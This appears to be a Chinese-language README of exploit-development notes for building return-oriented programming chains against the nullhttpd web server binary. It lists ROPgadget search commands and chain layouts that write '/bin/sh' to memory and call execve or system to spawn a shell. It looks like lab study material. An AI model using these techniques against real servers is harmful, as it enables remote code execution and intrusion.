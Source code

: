 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary nullhttpd.bin --only "mov|ret"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S nullhttpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
---------------------------
mov qword ptr [rbx], rax ; add rsp, 0x18 ; pop rbx ; pop rbp ; ret

mov byte ptr [rbp], 0 ; pop rbx ; pop rbp ; pop r12 ; ret
add dword ptr [rbp - 0x3d], ebx ; nop ; ret



```

调用sys（设置参数rdi）
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rsi"
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "eax"
ROPgadget --binary nullhttpd.bin | grep "syscall"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
设置0然后add或sub
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
-------------------
设置rdx|edx -> 0
shl edx
xor
mov rdx, qword ptr [rbp - 8] ; mov qword ptr [rax], rdx ; pop rbp ; ret
xor edx, edx ; mov eax, edx ; pop rbx ; ret
shl edx, 4 ; add eax, edx ; ret  *8 time

```


## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
